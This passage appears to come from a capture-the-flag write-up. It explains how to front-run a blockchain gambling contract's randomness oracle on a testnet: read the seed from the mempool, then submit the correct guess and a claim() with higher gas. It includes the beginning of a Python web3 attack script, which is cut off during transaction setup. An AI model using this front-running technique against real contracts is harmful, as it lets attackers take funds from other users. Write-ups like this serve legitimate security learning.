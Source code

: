 Then we can get data of the transactions with multithreading, so we are fast enough to read the seed of the new randomness delivery and front run the oracle's transaction with a correct guess

As the correct number is based on the block that included the randomness delivery transaction, and sepolia is not too busy that time, I will just assume it will be included in the next block

So, at first I will call enter() with any number, as we will make a new correct guess later so it doesn't matter

Then monitor the mempool for the oracle's randomness delivery transaction, and read the seed from it

After we get the seed, calculate the correct number, and make a guess with enter() with the correct number with a higher gas fee to ensure our transaction will be included earlier than the oracle's transaction

Then wait for the oracle's 1st randomness delivery is included, and we can immediately call claim() with a high gas fee to ensure it being included before the 2nd randomness delivery transaction

This is the script I used to automate everything quickly :

```python
from web3 import Web3, HTTPProvider
from web3.middleware import geth_poa_middleware
from threading import Thread
import hashlib
from eth_abi import packed

web3 = Web3(HTTPProvider('<rpc url>'))
web3.middleware_onion.inject(geth_poa_middleware, layer=0) 

# send first enter()
gambling_abi = '[{"inputs":[{"internalType":"uint256","name":"_number","type":"uint256"}],"name":"acceptRandomnessWrapper","outputs":[],"stateMutability":"nonpayable","type":"function"},{"inputs":[],"name":"claim","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"nonpayable","type":"function"},{"inputs":[{"internalType":"contract RandomnessDealer","name":"_dealer","type":"address"}],"stateMutability":"nonpayable","type":"constructor"},{"anonymous":false,"inputs":[{"indexed":false,"internalType":"string","name":"ip","type":"string"},{"indexed":false,"internalType":"uint256","name":"port","type":"uint256"}],"name":"DeliverFlag","type":"event"},{"inputs":[{"internalType":"uint256","name":"_number","type":"uint256"}],"name":"enter","outputs":[],"stateMutability":"payable","type":"function"},{"anonymous":false,"inputs":[{"indexed":false,"internalType":"address","name":"sender","type":"address"}],"name":"Fail","type":"event"},{"inputs":[{"internalType":"string","name":"ip","type":"string"},{"internalType":"uint256","name":"port","type":"uint256"}],"name":"flag","outputs":[],"stateMutability":"nonpayable","type":"function"},{"anonymous":false,"inputs":[{"indexed":false,"internalType":"address","name":"winner","type":"address"}],"name":"Win","type":"event"},{"inputs":[{"internalType":"address","name":"","type":"address"}],"name":"guesses","outputs":[{"internalType":"uint256","name":"number","type":"uint256"},{"internalType":"uint256","name":"block","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"lastRandomRequest","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"randomDealer","outputs":[{"internalType":"contract RandomnessDealer","name":"","type":"address"}],"stateMutability":"view","type":"function"},{"inputs":[],"name":"seed","outputs":[{"internalType":"uint256","name":"number","type":"uint256"},{"internalType":"uint256","name":"block","type":"uint256"}],"stateMutability":"view","type":"function"},{"inputs":[{"internalType":"address","name":"","type":"address"}],"name":"streak","outputs":[{"internalType":"uint256","name":"","type":"uint256"}],"stateMutability":"view","type":"function"}]'
gambling_contract = web3.eth.contract(address='0x2f51e462522AF7b4bcc0CCF6c9368D3B19267bfe', abi=gambling_abi)

wallet = '0x9570731E6814B98C36DeAC7a38B97A8B254B391A'
private_key = '<key>'

nonce = web3.eth.get_transaction_count(wallet)
gasPrice = web3.eth.gas_price
gasLimit = 200000

tx = {
    'nonce': nonce,
```